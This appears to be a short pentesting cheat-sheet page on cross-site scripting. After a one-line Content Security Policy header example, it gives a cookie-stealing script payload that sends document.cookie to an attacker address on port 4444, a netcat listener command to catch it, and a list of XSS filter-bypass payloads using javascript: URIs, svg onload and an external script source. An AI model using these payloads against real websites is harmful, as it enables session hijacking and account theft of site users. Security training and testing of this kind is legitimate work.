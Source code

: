 

Additional Security Measures

1.  **Content Security Policy (CSP)**

    ```php
    header("Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';");
     
    ```



## How To PenTest?

in website&#x20;

<pre class="language-javascript"><code class="lang-javascript"><strong>&#x3C;script>new Image().src="http://192.168.1.9:4444/bogus.php?output="+escape(document.cookie);&#x3C;/script>
</strong></code></pre>

## in your Attcker Machine

```bash
nc -nvlp 4444
```

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

## How to Bypass Protection

* Without event handlers

```
<object data=javascript:confirm()>
<a href=javascript:confirm()>click here
<script src=//14.rs></script>
<script>confirm()</script>
```

* Without space

```
<svg/onload=confirm()>
<iframe/src=javascript:alert(1)>
```
